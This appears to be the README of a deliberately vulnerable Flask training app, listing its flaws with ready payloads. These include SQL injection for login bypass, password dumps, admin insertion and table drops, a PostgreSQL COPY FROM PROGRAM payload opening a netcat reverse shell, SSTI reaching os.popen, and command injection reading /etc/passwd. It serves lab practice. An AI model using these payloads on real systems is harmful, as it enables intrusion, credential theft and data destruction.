 # eTechAcademy Flask App

## Vulnerabilities

### SQL Injection
#### Retrieve Data
Paths: `/login` and `/index`
Methods: `GET, POST`

**Examples:**
- Log into admin account with SQL
```
username: ' OR 1=1--
password: a

OR 

username: admin 
password: ' OR 1=1--
```

- Vulnerable query database on `/index`
```
' OR 1=1--
' UNION SELECT username,password FROM users--
' UNION SELECT username || ':' || password,role FROM users--
```

Resources: [Sqli CheatSheet](https://book.hacktricks.xyz/pentesting-web/sql-injection)

**SQL Fix:**
```
cur.execute("SELECT user_id, role FROM users WHERE username = %s AND password = %s", (username, password))
```

#### Insert/Update/Drop Data
**Examples**
Path: `/add_course`
Methods: `GET, POST`

*Note:* Must be **Instructor/Admin** role and you must select instructor and set image_path for this to work properly.
```
# Insert new admin user
New Course', 'Malicious Description', NULL, 'image.jpg'); INSERT INTO users (username, password, role) VALUES ('evil', 'evil', 'admin'); --

# Update admin password
New Course', 'test', NULL, 'test.jpg'); UPDATE users SET password = 'testing' WHERE username = 'admin'; --

# Drop table
New Course', 'test', NULL, 'test.jpg'); DROP TABLE courses CASCADE; --

```

#### RCE Via SQL Injection (Postgresql)
Path: `/add_course`
Methods: `GET, POST`

**Example:**
```
NewCourse', 'test', 1, 'test'); DROP TABLE IF EXISTS cmd_exec; CREATE TABLE cmd_exec(cmd_output text); COPY cmd_exec FROM PROGRAM 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc IP PORT >/tmp/f'; SELECT * FROM cmd_exec;--
```

### Server-Side Template Injection
Paths: `/search_course`
Methods: `GET, POST`

**Examples:**
```
{{ 7 * 7 }}
```

```
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```

Other resources: [SSTI Cheatsheet](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection)

### Command Injection
Path: `/admin_dashboard/system_monitor`
Methods: `GET, POST`

**Examples:**
```
whoami
cat /etc/passwd
```

### Command Injection via API endpoint
Path: `/endpoint`
Methods: `GET`

**Example**
```
http://127.0.0.1/endpoint?command=whoami
curl -s http://127.0.0.1:8000/endpoint?command=cat+/etc/passwd | jq -r '.status[]'
```